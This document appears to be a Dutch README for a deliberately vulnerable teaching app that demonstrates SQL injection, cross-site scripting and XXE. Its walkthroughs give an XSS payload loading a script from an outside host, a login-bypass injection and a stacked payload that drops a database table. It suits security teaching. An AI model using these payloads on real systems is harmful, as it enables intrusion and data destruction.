 # OwaspVulnerabilities

In deze applicatie zijn drie vulnerabilities ingebouwd.

Injection (sql en code)
Cross site scripting XSS
XML External Entity (XXE) Processing

Injection (sql en code)
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/
User is sa, password is leeg.

Tabellen User en Article
User wordt gebruikt om 'in te loggen' - SQL injectie
Article wordt gebruikt om code te injecteren.

Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.

Code injectie 

Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: 
<script>alert('Hello')</script>
(id mag leeg blijven)
In de response is het aangemaakte article te zien met het id.
Gebruik dit id in 'getArticleById' om het article op te halen.
Er gebeurt verder niets maar de code is te zien in de response.
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).
Gebruik de url in de browser.
Er is nu een alert melding te zien.
Voek een nieuwe article toe met in het veld description:
<script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)
geeft nu een melding in de browser m.b.t. encrypted files

---------------------------------------------------------------------------------------------------------
SQL injectie

De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.
Bij de juiste credentials wordt een gevuld user object teruggegeven
user nikki@info.org
pw   S&cr#t
In de logging is de gebruikte sql query te zien:
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.
Een voorbeeld is: ' or '1' = '1
De query wordt dan:
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'
Dit: ' or '1' = '1'   ; drop table article; --
geeft query 
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'
en heeft tot gevolg dat tabel article is verwijderd.

---------------------------------------------------------------------------------------------------------
XML External Entity (XXE) Processing

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.
Hierin kunnen uitvoerbare instructies staan
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.

De RegisterXxeAttackController logt een dergelijke 'aanval'.
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml
Het gevulde object wordt getoond in de response.
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml
In de logging is nu te zien:
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!


N.B.
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.




